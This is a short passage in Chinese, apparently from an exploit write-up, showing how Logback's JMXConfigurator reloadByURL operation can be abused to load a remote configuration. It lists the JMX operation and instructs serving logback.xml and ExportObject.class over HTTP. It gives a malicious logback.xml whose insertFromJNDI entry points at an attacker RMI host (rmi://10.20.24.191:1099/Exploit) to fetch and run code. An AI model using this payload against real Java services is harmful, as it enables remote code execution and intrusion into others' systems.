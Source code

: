
中 reloadByURL 可以加载远程 url xml 文件


```
"ch.qos.logback.classic": {
"Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator": {
"op": {
"reloadByURL": {
"args": [
{
"name": "p1",
"type": "java.net.URL",
"desc": ""
}
],
"ret": "void",
"desc": "Operation exposed for management"
}
```

## 0x03 http 服务存放logback.xml,ExportObject.class


logback.xml 文件内容

![](./logback.png)

```
<configuration>
  <insertFromJNDI env-entry-name="rmi://10.20.24.191:1099/Exploit" as="appName" />
</configuration>
```
